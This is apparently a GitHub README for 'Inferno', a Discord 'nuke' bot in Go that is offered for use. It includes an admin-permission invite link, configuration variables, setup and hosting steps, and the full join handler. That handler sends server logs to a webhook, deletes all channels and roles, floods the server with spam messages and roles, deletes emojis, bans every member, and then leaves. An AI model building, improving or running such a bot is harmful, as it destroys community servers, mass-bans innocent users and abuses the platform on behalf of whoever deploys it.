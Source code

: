 <img src="https://media.discordapp.net/attachments/1109426745012142081/1183350870079971449/IMG_9567.png?ex=65880461&is=65758f61&hm=44475ba2ed4ff3a5e0a01e530660de151736d11b3038d632fbb672e66a0bd8cf&=&format=webp&quality=lossless&width=1202&height=657">

# Inferno Discord Bot
A powerful Discord nuke bot written on Go

   * [Bot's authorization link](https://discord.com/api/oauth2/authorize?client_id=1193564970751901776&permissions=8&scope=bot)
   * [Discord Server](https://discord.gg/kAfuNzeUDx)
<hr>

## Big thanks to [morg](https://github.com/00-Morg-00)
for code improvements

# .env file
There's many variables such as 

<pre>
{
    BOT_TOKEN: bot's token
    
    WEBHOOK_URL: Webhook's URL
    AVATAR_URL: avatar url for webhook

    CHANNEL_NAME: name of the channel
    SERVER_NAME: name of the server
    ROLE_NAME: name of the role

    EMBED_TITLE: Embed's title
    EMBED_DESCRIPTION: Embed's description

}
</pre>
/// All values are have string data type

# Code Structure
All bot's functions are in cogs folder
<pre>
    main.go
    auto.go
    .env
    avatar.webp
    - cogs
      - channels.go
      - emoji.go
      - leave.go
      - members.go
      - rename.go
      - roles.go
      - webhooks.go
</pre>

# main.go & auto.go
main.go - launches bot and OnGuildCreate handler from auto.go
<pre>
    sess.AddHandler(onGuildCreate) - function onGuildCreate is located in auto.go file
</pre>
<hr>
auto.go - launches bot's functions from cogs folder if bot joined the guilld
<pre>
func onGuildCreate(s *discordgo.Session, event *discordgo.GuildCreate) {
    var wg sync.WaitGroup

	cogs.Logs(s, event)
	cogs.GuildRename(s, event)

	wg.Add(1)
	go func() {
		defer wg.Done()
		channels, _ := s.GuildChannels(event.ID)
		cogs.DeleteChannels(s, channels, &wg)
	}()
	wg.Wait()

	for i := 0; i < 50; i++ {
		wg.Add(1)
		go func() {
			defer wg.Done()
			cogs.TextSpam(s, event, &wg)
		}()
	}
	wg.Wait()

	wg.Add(1)
	go func() {
		defer wg.Done()
		cogs.DeleteRoles(s, event)
	}()
	wg.Wait()

	for i := 0; i < 40; i++ {
		wg.Add(1)
		go func() {
			defer wg.Done()
			cogs.RolesSpam(s, event)
		}()
	}
	wg.Wait()

	cogs.EmojiDelete(s, event)
	cogs.MemberBan(s, event)
	cogs.BotLeave(s, event)
}
</pre>

# cogs folder
There's located all bot's functions.
<pre>
	channels.go: 2 functions (DeleteChannels, TextSpam)
	emoji.go: 1 function that deletes all emojis from the server
	leave.go: 1 function that leaves from the server
	members.go: 1 function that bans all members from the server
	rename.go 1 function that renames the server 
	roles.go: 2 functions that deletes and creates roles (DeleteRoles, RolesSpam)
	webhooks.go: 1 function that send logs before nuke bot starts other functions via webhook.
</pre>

# Installation guide
<pre>
	1. Clone or download repository's source code
	2. Install golang
	3. Go to Inferno folder
	4. Change values in .env
	5. Run go build Inferno
</pre>

# Where to host?
We recommend you to use <a href="https://fl0.com">fl0.com</a>, <a href="https://koyeb.com">koyeb.com</a>, <a href="https://back4app.com">back4app.com</a> or <a href="https://render.com">render.com</a>. They're free and there you can host Inferno and other discord bots. More information about other hostings are <a href="https://github.com/DmitryScaletta/free-heroku-alternatives">here</a>

